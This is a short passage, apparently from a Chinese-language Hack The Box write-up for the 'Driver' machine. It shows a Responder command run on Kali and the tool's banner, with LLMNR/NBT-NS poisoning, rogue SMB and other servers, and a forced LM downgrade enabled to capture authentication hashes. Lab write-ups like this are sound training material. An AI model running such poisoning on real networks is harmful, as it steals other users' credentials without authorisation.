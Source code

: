 文件上传

# 回答者

确保您有应答者监听:

```
┌──(root💀kali)-[~/htb/driver]
└─# responder -wrf --lm -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [ON]
    Fingerprint hosts          [ON]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.192]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
```